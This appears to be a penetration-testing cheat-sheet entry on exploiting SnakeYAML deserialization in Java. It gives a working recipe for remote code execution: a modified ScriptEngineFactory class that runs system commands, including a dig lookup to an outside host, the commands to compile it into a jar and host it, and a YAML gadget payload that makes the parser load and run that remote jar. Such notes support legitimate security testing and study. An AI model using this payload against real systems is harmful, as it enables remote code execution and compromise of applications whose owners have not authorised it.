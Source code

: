 # Java
## SnakeYAML
SnakeYAML deserialization fails and allows for RCE.
### Steps
- Clone the following repo: [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)     
- Edit the following part of `yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java`
    ```java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    ```
- Compile and put everything into a `.jar` file
    ```bash
    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```
- Make a server to host the jar file
- Enter the following yaml code into the parse
    ```yaml
    !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["URL TO JAR FILE"]
    ]]
    ]
    ```

### Troubleshooting
- If the java version of the vulnerable yaml parser doesn't match your java version then recompile:
    ```bash
    javac --release <version> src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```

### References
- [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)
- [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)
- [https://www.mankier.com/1/javac](https://www.mankier.com/1/javac)
- [https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment](https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment)